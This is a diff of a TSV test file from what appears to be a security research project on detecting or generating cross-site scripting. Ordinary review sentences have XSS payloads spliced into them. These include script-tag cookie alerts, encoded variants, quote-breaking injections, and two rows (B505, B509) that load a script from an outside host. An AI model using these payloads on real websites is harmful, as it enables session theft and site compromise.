

Before and after one commit to Emszszsz/GAN-security, a TSV file: Payloads/test_mixed.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Payloads/test_mixed.tsv
+++ b/Payloads/test_mixed.tsv
-C123: The nano stat%253cscript%253ealert(document.cookie)%253c/script%253e“><<script>alert(document.cookie);//<</script>ed it.My son…
+C123: The nano stat%253cscript%253ealert(document.cookie)%253c/script%253e?><<script>alert(document.cookie);//<</script>ed it.My son…
-B168 (sentence): …that it w‘; ALERT(DOCUMENT.COOKIE); VAR FOO=’ill break on…
+B168 (sentence): …that it w?; ALERT(DOCUMENT.COOKIE); VAR FOO=?ill break on…
-B234 (sentence): …look and fefoo\’; alert(document.cookie);//’;el of Samsung…
+B234 (sentence): …look and fefoo\?; alert(document.cookie);//?;el of Samsung…
-B296 (sentence): …alot of m%253CSCRIPT%253EALERT(DOCUMENT.COOKIE)%253C/SCRIPT%253E“><<SCRIPT>ALERT(DOCUMENT.COOKIE);//<</SCRIPT>oney.
+B296 (sentence): …alot of m%253CSCRIPT%253EALERT(DOCUMENT.COOKIE)%253C/SCRIPT%253E?><<SCRIPT>ALERT(DOCUMENT.COOKIE);//<</SCRIPT>oney.
-B298 (sentence): I'm happy‘; alert(document.cookie); var foo=’ about this…
+B298 (sentence): I'm happy?; alert(document.cookie); var foo=? about this…
-B505 (sentence): …had to ta%22/%3E%3CBODY%20ONLOAD=’DOCUMENT.WRITE(%22%3CS%22%2B%22CRIPT%20SRC=HTTP://MY.BOX.COM/XSS.JS%3E%3C/SCRIPT%3E%22)’%3Eke the battery…
+B505 (sentence): …had to ta%22/%3E%3CBODY%20ONLOAD=?DOCUMENT.WRITE(%22%3CS%22%2B%22CRIPT%20SRC=HTTP://MY.BOX.COM/XSS.JS%3E%3C/SCRIPT%3E%22)?%3Eke the battery…
-B509 (sentence): …does not %22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3Efit the Palm…
+B509 (sentence): …does not %22/%3E%3CBODY%20onload=?document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)?%3Efit the Palm…
-B513 (sentence): …what I wantefoo\’; alert(document.cookie);//’;d.
+B513 (sentence): …what I wantefoo\?; alert(document.cookie);//?;d.
```
Also changed, not shown: 5 edited cells elsewhere in this file, 57 other files.
